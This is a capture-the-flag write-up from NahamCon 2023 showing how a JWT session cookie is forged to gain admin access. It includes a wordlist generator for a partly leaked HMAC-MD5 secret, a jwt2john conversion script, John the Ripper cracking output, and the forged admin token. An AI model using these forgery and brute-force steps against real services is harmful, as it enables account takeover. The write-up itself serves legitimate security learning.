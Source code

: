 >Author: @congon4tor#2334  
>  
>Enjoy some of our delicious home made marmalade!
------------------------
We are prompted to choose a username to log in. No password asked. Firstly trying admin, of course we are not allowed. So I go with my old friend `asdf`.


![Pasted image 20230615153302.png](https://github.com/spencerja/NahamConCTF_2023_Writeup/blob/main/Web/Images/Pasted%20image%2020230615153302.png)

On login, it tells us that only admin can see the flag:

![Pasted image 20230616173145.png](https://github.com/spencerja/NahamConCTF_2023_Writeup/blob/main/Web/Images/Pasted%20image%2020230616173145.png)

With how little content is on these pages, there is pretty much nothing else to consider other than editing the given cookie:
`token=eyJhbGciOiJNRDVfSE1BQyJ9.eyJ1c2VybmFtZSI6ImFzZGYifQ.SKkdg9_2EbXj67FcZNnXIg`
Based on the cookie having 3 sections separated by dots, I immediately recognize this as a JWT. Using jwt.io to decode:

![Pasted image 20230616173339.png](https://github.com/spencerja/NahamConCTF_2023_Writeup/blob/main/Web/Images/Pasted%20image%2020230616173339.png)

The blue segment is a signature hashed with a secret key to prevent forgery, but this is not always used to verify. Perhaps we can just edit the Payload section so that our username is admin?
```
{
  "username": "admin"
}
```
Converting back to base64, our new token looks like this
`eyJhbGciOiJNRDVfSE1BQyJ9.ewogICJ1c2VybmFtZSI6ICJhZG1pbiIKfQ.SKkdg9_2EbXj67FcZNnXIg`

When I edit the cookie, it gives me an interesting new error:

![Pasted image 20230616173646.png](https://github.com/spencerja/NahamConCTF_2023_Writeup/blob/main/Web/Images/Pasted%20image%2020230616173646.png)

```
# Bad Request

Invalid signature, we only accept tokens signed with our MD5_HMAC algorithm using the secret fsrwjcfszeg*****
```

So while they are checking the token signatures, they did a bit of an oopsie and gave away most of their secret key!! Only the last 5 characters are hidden, making this secret key effectively 5 characters in length. This is something that can be brute-forced rather easily.

I used python to quickly generate a wordlist containing the known secret string, then appended all possible 5 letter combinations:
```python
fp = open("wordlist.txt", "w")

for i in range(ord('a'), ord('z') + 1):
    for j in range(ord('a'), ord('z') + 1):
        for k in range(ord('a'), ord('z') + 1):
            for l in range(ord('a'), ord('z') + 1):
                for m in range(ord('a'), ord('z') + 1):
                    fp.write('fsrwjcfszeg' + chr(i) + chr(j) + chr(k) + chr(l) + chr(m) +  "\n");

fp.close()
```

From this point, I can use my previously valid JWT for asdf, and use `John the Ripper` to brute force the secret key. John will accept the token when the signature is presented in hex, however I had trouble converting myself for some reason. This issue was resolved once I used [Sjord's jwtcrack code](https://github.com/Sjord/jwtcrack/blob/master/jwt2john.py) to recreate my token.

Sjord's jwtcrack code:
```python
#!/usr/bin/env python3

import sys
from jwt.utils import base64url_decode
from binascii import hexlify


def jwt2john(jwt):
    """
    Convert signature from base64 to hex, and separate it from the data by a #
    so that John can parse it.
    """
    jwt_bytes = jwt.encode('ascii')
    parts = jwt_bytes.split(b'.')

    data = parts[0] + b'.' + parts[1]
    signature = hexlify(base64url_decode(parts[2]))

    return (data + b'#' + signature).decode('ascii')


if __name__ == "__main__":
    if len(sys.argv) != 2:
        print("Usage: %s JWT" % sys.argv[0])
    else:
        john = jwt2john(sys.argv[1])
        print(john)
```

```shell
$ python convert.py 'eyJhbGciOiJNRDVfSE1BQyJ9.eyJ1c2VybmFtZSI6ImFzZGYifQ.SKkdg9_2EbXj67FcZNnXIg'
eyJhbGciOiJNRDVfSE1BQyJ9.eyJ1c2VybmFtZSI6ImFzZGYifQ#48a91d83dff611b5e3ebb15c64d9d722
```

Cracking the secret with john:

```shell
$ john jwt.txt --wordlist=wordlist.txt --format=HMAC-MD5
Using default input encoding: UTF-8
Loaded 1 password hash (HMAC-MD5 [password is key, MD5 256/256 AVX2 8x3])
Warning: poor OpenMP scalability for this hash type, consider --fork=2
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
fsrwjcfszegvsyfa (?)     
1g 0:00:00:04 DONE (2023-06-16 13:39) 0.2487g/s 2472Kp/s 2472Kc/s 2472KC/s fsrwjcfszegvsxlg..fsrwjcfszegvtppv
Use the "--show --format=HMAC-MD5" options to display all of the cracked passwords reliably
Session completed. 
```

The secret key is `fsrwjcfszegvsyfa`
Now to generate a valid signature for our forged jwt. Using the first 2 base64 encoded segments, we perform HMAC-MD5 hashing, then convert from hex back to base64:

![Pasted image 20230616174953.png](https://github.com/spencerja/NahamConCTF_2023_Writeup/blob/main/Web/Images/Pasted%20image%2020230616174953.png)

Finalized token:
```
eyJhbGciOiJNRDVfSE1BQyJ9.ewogICJ1c2VybmFtZSI6ICJhZG1pbiIKfQ.kpCxx3dVioNEfybFE2UBxg
```

Upon refreshing the page, we get the flag.

![Pasted image 20230616141001.png](https://github.com/spencerja/NahamConCTF_2023_Writeup/blob/main/Web/Images/Pasted%20image%2020230616141001.png)

`flag{a249dff54655158c25ddd3584e295c3b}`

- Author : SpacerJa
